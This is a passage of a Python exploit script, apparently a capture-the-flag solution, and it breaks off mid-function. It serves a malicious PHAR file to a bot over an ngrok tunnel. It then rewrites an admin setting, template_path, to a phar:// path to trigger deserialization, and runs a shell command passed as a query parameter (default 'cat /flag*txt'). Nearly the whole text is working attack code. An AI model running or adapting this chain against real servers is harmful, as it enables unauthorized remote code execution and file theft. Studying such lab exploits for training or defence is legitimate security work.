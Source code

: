 ```python
    
    global PHAR_DOWNLOADED
    PHAR_DOWNLOADED= True

    return send_file(PHAR_FILE, mimetype='application/octet-stream')

@app.route('/')
def serve_index():
    print('[+] Bot accessed the landing page.')
    with open('index.html', 'r') as f:
        html_template =  f.read()

    phar_name = os.path.basename(PHAR_FILE)
    html_template = html_template.replace('__PHAR_NAME__', phar_name)

    return Response(html_template, mimetype='text/html')

def start_ngrok(port):
    global NGROK_PROCESS, NGROK_PUBLIC_URL
    NGROK_PROCESS = subprocess.Popen(['ngrok', 'http', str(port)], stdout=subprocess.DEVNULL)
    print("[*] Starting ngrok...")

    time.sleep(2)
    try:
        tunnels = requests.get("http://127.0.0.1:4040/api/tunnels").json()['tunnels']
        NGROK_PUBLIC_URL = tunnels[0]['public_url']
        print(f"[*] Ngrok tunnel started at: {NGROK_PUBLIC_URL}")
    except Exception as e:
        print("[!] Failed to retrieve ngrok URL:", e)
        sys.exit(1)

def validate_args():
    global TARGET_URL, PHAR_FILE, CMD

    parser = argparse.ArgumentParser()
    parser.add_argument('--target', help='Url challenge', default="http://localhost:1337")
    parser.add_argument('--phar', default="./poc.phar", help='Phar Location')
    parser.add_argument('--cmd', default="cat /flag*txt", help='Command')

    args = parser.parse_args()
    PHAR_FILE = args.phar
    TARGET_URL = args.target
    CMD = args.cmd

def update_settings():
    print('[*] Sending request to update template_path (phar exploit injection).')

    phar_name = os.path.basename(PHAR_FILE)
    data = {
        "template_path":"phar:///var/www/Downloads/" + phar_name
    }
    response = requests.post(TARGET_URL + "/api/admin/appSettings", json=data)
    print(f'[+] Server responded: {response.status_code} - {response.text[:50]}')

def get_flag():
    print(f'[*] Sending command: {CMD}')

    query = {
        "c": CMD
    }
    response = requests.get(url=TARGET_URL, params=query)
    
    if response.status_code == 200 and 'Exploit' in response.text:
```